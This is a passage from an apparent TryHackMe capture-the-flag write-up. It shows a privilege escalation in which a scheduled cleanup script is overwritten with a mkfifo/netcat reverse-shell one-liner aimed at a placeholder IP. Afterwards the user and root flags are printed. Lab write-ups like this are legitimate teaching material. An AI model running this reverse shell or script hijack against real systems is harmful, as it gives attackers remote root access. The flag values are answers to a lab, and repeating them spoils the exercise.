 ```
mv cleanupscript.sh cleanupscript.bak
nano cleanupscript.sh
# On nano, put this
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1111 >/tmp/f
chmod +x cleanupscript.sh
```

Now, once we've saved the file, we need to set up our listener and wait a couple minutes:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612164012.png)

We can now read both flags:

```
# cat /home/brian/user.txt
THM{178c31090a7e0f69560730ad21d90e70}

# cat /root/root.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612164116.png)

